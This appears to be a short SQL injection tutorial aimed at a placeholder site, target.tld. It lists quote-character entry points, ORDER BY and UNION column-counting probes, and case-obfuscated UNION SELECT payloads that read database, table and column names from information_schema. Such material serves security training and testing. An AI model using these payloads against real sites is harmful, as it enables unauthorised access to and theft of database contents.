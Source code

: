 In the process of finding SQL on the desired website, we must look for pages and forums that we must enter, 

or for example, by clicking on an icon or item, a new section will open for us.

For example, by clicking on an item, a GET request is sent to the origin of the website, but the id parameter is added to the URL and the value 13 is requested.

    http://target.tld/product.php?id=13

In order to make sure that this id parameter is related to the DBMS, we test different values ​​in the id input value.

For example, we have already tested and we know that we have a value for id=18.

so => id=13'+'5  and URL endoce it: id = 13'%2b'5

Entry Point:

     [Nothing]
    '
    "
    `
    ')
    ")
    `)
    '))
    "))
    `))

If it works and the output of parameter id=18 is displayed, you can test other inputs as well


another query: 

    ?id=13'AND 1=1 %23
    ?id=13'AND 1=0 %23
    ?id=13' order by 1 %23    => always true query


You can find the number of columns with order by:

    ?id=13'order by 10 %23

We will send this request if we don't get a response, that means the number of columns is less than 10 Now we decrease one by one until we get the response on page 13 and find the number of columns.

    1' ORDER BY 1--+    #True
    1' ORDER BY 2--+    #True
    1' ORDER BY 3--+    #True
    1' ORDER BY 4--+    #False - Query is only using 3 columns
                            #-1' UNION SELECT 1,2,3--+    True

and GROUP BY:

    1' GROUP BY 1--+    #True
    1' GROUP BY 2--+    #True
    1' GROUP BY 3--+    #True
    1' GROUP BY 4--+    #False - Query is only using 3 columns
                            #-1' UNION SELECT 1,2,3--+    True

                            



UNION is used to agree two queries. You can find the number of columns using UNION

    ?id=13'UNION SELECT NULL-- -            => ERROR!
    ?id=13'UNION SELECT NULL,NULL-- -       => ERROR!
    ?id=13'UNION SELECT NULL,NULL,NULL-- -  => No Error, so the number of columns is 3





Extract database names, table names and column names

    #Database names
    -1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
    
    #Tables of a database
    -1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
    
    #Column names
    -1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]



